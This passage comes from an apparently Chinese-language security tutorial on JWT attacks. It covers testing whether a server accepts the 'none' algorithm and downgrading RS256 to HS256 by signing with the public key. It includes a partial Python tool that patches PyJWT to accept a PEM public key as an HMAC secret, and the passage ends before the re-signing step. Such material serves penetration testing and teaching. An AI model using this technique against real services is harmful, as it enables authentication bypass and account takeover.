 ![image.png](/assets/pages_json_web_token_1614149846344_0.png) 
删掉最后的 "." ，然后带入原有的数据包进行发包测试，看 server 端是否接受 none 算法，从而绕过了算法签名。
## 非对称加密向下降级为对称加密
现在大多数应用使用的算法方案都采用 RSA 非对称加密，server 端保存私钥，用来签发 jwt，对传回来的 jwt 使用公钥解密验证。

碰到这种情况，我们可以修改 alg 为 HS256 对称加密算法，然后使用我们可以获取到的公钥作为 key 进行签名加密，这样一来，当我们将 jwt 传给 server 端的时候，server 端因为默认使用的是公钥解密，而算法为修改后的 HS256 对称加密算法， 所以肯定可以正常解密解析，从而绕过了算法限制。

当 server 端严格指定只允许使用 HMAC 或者 RSA 算法其中一种时候，那这种攻击手段是没有效果的。

附上降级转型的 python 代码：
```python
import jwt
import sys
import re
import argparse


class HMACAlgorithm(jwt.algorithms.HMACAlgorithm):
    def prepare_key(self, key):
        key = jwt.utils.force_bytes(key)
        return key

jwt.api_jwt._jwt_global_obj._algorithms['HS256'] = \
        HMACAlgorithm(HMACAlgorithm.SHA256)

parser = argparse.ArgumentParser(
        formatter_class=argparse.ArgumentDefaultsHelpFormatter,
        description='''Re-sign a JWT with a public key,
        changing its type from RS265 to HS256.''')
parser.add_argument('-j', '--jwt-file', dest='jwt_file',
        default='jwt.txt', metavar='FILE',
        help='''File containing the JWT.''')
parser.add_argument('-k', '--key-file', dest='keyfile',
        default='key.pem', metavar='FILE',
        help='''File containing the public PEM key.''')
parser.add_argument('-a', '--algorithm', dest='algorithm',
        default='RS256', metavar='ALGO',
        help='''Original algorithm of the JWT.''')
parser.add_argument('-n', '--no-vary', dest='no_vary',
        default=False, action='store_true',
        help='''Sign only once with the exact key given.''')
args = parser.parse_args()

with open(args.keyfile, 'r') as f:
    try:
        pubkey = f.read()
    except: 
        sys.exit(2)

with open(args.jwt_file, 'r') as f:
    try:
        token = f.read().translate(None, '\n ')
    except: 
        sys.exit(2)

try:
    jwt.decode(token, pubkey, algorithms=args.algorithm)
except jwt.exceptions.InvalidSignatureError:
    sys.stderr.write('Wrong public key! Aborting.')
```
